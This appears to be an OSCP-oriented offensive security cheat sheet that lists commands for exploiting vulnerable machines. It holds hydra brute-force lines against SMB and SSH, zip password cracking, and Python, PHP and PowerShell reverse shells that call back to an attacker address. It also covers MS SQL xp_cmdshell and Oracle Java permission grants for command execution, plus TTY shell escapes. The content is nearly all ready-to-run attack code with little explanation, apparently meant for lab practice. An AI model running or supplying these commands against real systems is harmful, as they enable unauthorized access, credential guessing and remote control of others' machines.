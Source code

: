 # Offensive Security Testing Guide
This cheat sheet is the compilation of commands to exploit the vulnerable machines. The commands below may not be enough for you to obtain your Offensive Security Certified Professional (OSCP).

## Dictionary Attack
```bash
hydra -L <user_dict> -P <pwd_dict> 192.168.56.1 smb
hydra -L <user_dict> -P <pwd_dict> 192.168.56.1 ssh
```

```bash
fcrackzip -u -D -p <dictionary_file> <zip_file>
```

## Code Execution
### Python 

```python 
import subprocess
subprocess.check_output(['whoami'])
```

```python 
import os
import sys

os.system('nc -e /bin/bash <attacker_ip> 8099')
```

### PHP
```php
<?php passthru("rm /tmp/f; mkfifo /tmp/f; cat /tmp/f|/bin/sh -i 2>&1|nc <attacker_ip_address> 8099 > /tmp/f"); ?>
```

### MS SQL
```sql
EXEC SP_CONFIGURE N'show advanced options', 1
go
EXEC SP_CONFIGURE N'xp_cmdshell', 1
go
RECONFIGURE
go
xp_cmdshell 'cd C:\<path_to_bind_shell>\ & <bind_shell_name>.exe';
go
```

### Oracle iSQL* Plus
```sql
exec dbms_java.grant_permission( 'SYSTEM','SYS:java.io.FilePermission', '<<ALL FILES>>', 'execute');

begin
  dbms_java.grant_permission
      ('SYSTEM',
       'java.io.FilePermission',
       '<<ALL FILES>>',
       'execute');
  dbms_java.grant_permission
      ('SYSTEM',
       'java.lang.RuntimePermission',
       '*',
       'writeFileDescriptor' );
end;

exec javacmd('<command>');
```

### Power Shell
```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.56.101',8099);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

## TTY Shell

### Python
```python
which python
which bash
python -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

### Perl
```perl
/usr/bin/perl -e 'exec "/bin/sh"'
```

### VIM
```bash
:set shell=/bin/bash
:shell
```

### AWK
```bash
awk 'BEGIN {system("/bin/sh")}'
```

## File Transfer
### Remote Desktop
```
rdesktop -u <username> -p <password> -r disk:tmp=~/Desktop 127.0.0.1:8080
```
